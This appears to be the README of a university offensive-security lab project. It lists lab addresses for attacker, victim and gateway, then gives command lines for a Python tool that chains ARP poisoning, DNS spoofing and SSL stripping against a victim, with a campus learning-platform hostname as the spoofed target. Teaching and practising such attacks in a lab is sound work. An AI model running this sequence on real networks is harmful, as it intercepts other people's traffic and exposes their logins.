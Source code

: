 # 2IC80Project
Lab on Offensive Computer Security
"
### Addresses:
Attacker:
10.0.123.4  08:00:27:4f:6a:5d

Victim:
10.0.123.5  08:00:27:23:55:6e

Gateway:
10.0.123.1  52:54:00:12:35:00
or 
192.168.1.1 ?

### Commands:

See ARP table: `arp`
Clear ARP table: `sudo ip -s -s neigh flush all`

# Run steps separately:
1. ARP poison the victim: 
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --macVictim "08:00:27:23:55:6e" --ipToSpoof "10.0.123.1"`
`sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "10.0.123.5" --macVictim "08:00:27:23:55:6e" --ipToSpoof "192.168.1.1"`

2. ARP poison the gateway: `sudo python3 main.py --interface "enp0s10" arpPoison --ipVictim "192.168.1.1" --ipToSpoof "10.0.123.5"`
3. DNS Spoof the victim: `sudo python3 main.py --interface "enp0s10" dnsSpoof --ipVictim "10.0.123.5" --ipToSpoof "46.137.139.112"` _canvas.tue.nl_
4. SSL Strip the victim: `sudo python3 main.py --interface "enp0s10" sslStrip --ipVictim "10.0.123.5" --ipToSpoof "46.137.139.112"` _canvas.tue.nl_